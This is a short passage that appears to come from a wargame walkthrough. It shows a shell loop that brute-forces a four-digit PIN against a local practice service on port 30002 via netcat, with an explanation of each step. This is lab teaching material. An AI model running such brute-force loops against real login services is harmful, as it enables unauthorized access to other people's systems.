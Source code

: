 For connecting and brute forcing, we could create a script for this:

```sh
for i in {0000..9999};
do
	echo "current_level_password ${i}";
done | nc localhost 30002 | grep -v "Wrong"
```

We iterate from 0000 to 9999 using a for loop, then echo the password of the current level with the current iteration index. Then we pipe it into `netcat`. The invert grep `grep -v` allows us to filter for any output that doesn't contain the word *Wrong* in it, the word that indicates incorrect password. So we just grab output lines that are correct.